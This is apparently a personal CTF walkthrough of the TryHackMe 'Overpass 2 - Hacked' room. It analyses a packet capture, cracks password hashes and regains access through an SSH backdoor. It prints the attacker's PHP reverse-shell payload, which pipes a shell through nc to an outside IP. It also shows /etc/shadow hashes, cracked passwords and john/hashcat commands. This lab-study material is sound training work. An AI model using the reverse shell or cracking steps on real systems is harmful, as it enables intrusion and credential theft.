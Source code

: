 ```yaml
---
title: Overpass 2 - Hacked
date: 2022-06-24 18:00:00 -0500
categories: [Tryhackme, CTF, Walkthrough]
tags: [overpass, pcap, wireshark, hashcat]
---
```


Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

[https://tryhackme.com/room/overpass2hacked](https://tryhackme.com/room/overpass2hacked)

![0xskar](/assets/wireshark.jpg)

* * *

## Task 1 - Forensics - Analyse the PCAP 

- Can you work out how the attacker got in, and hack your way back into Overpass' production server?

- md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

##   Answer the questions below

**What was the URL of the page they used to upload a reverse shell?**

- checking out wireshark we can see a lot of access to /developments/ and an /upload.php which was used to upload payload.php to /developments/upload/payload.php

**What payload did the attacker use to gain access?**

- inspect the 1026 char POST /development/upload.php

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

**What password did the attacker use to privesc?**

- traverse through wireshark, **follow the TCP Stream**
- james:whenevernoteartinstant

**How did the attacker establish persistence?**

- line 120
- [https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)

**Using the fasttrack wordlist, how many of the system passwords were crackable?**

- find in wireshark (i didnt note the line :sleeping:)

```shell
/etc/shadow
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

- crack the hashes

```shell
┌──(0xskar㉿cocokali)-[~/thm/rooms/overpass2hacked]
└─$ john --format=sha512crypt --wordlist=/usr/share/wordlists/fasttrack.txt etc.shadow.hashes 
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)     
abcd123          (szymex)     
1qaz2wsx         (muirland)     
secuirty3        (paradox)     
4g 0:00:00:00 DONE (2022-06-23 23:00) 6.349g/s 352.3p/s 1761c/s 1761C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

* * *

## Task 2 - Research - Analyse the code 

##   Answer the questions below

**What's the default hash for the backdoor?**

- check https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go
- ``bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3``

**What's the hardcoded salt for the backdoor?**

- 1c362db832f3f864c8c2fe05f2002a05

**What was the hash that the attacker used? - go back to the PCAP for this!**

- Follow TCP Stream - Line 3479
- 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

**Crack the hash using rockyou and a cracking tool of your choice. What's the password?**

- ``hash-identifier`` tells us SHA-512 and the main.go tells us sha512 pass:salt
- ``hashcat -h`` tells us to use 1710 sha512($pass.$salt)
- build command ``hashcat -a 0 -m 1710 attacker.salt.hash /usr/share/seclists/Password/rockyou.txt``
- ``november16``

* * *

## Task 3 Attack - Get back in! 

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

##   Answer the questions below

**The attacker defaced the website. What message did they leave as a heading?**

1. Visit Website
2. H4ck3d by CooctusClan

**Using the information you've found previously, hack your way back in!**

1. SSH backdoor is @ port 2222
2. trying to use SSH returns ``no matching host key type found. Their offer: ssh-rsa``
3. googlfu the answer and adding ``HostKeyAlgorithms +ssh-rsa,ssh-dss`` to ``/etc/ssh_config`` lets us connect with james' password. Now for privesc!

```shell
Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
```

**What's the user flag?**

- easy just check home

**What's the root flag?**

- nice of them to leave suid :)

* * * 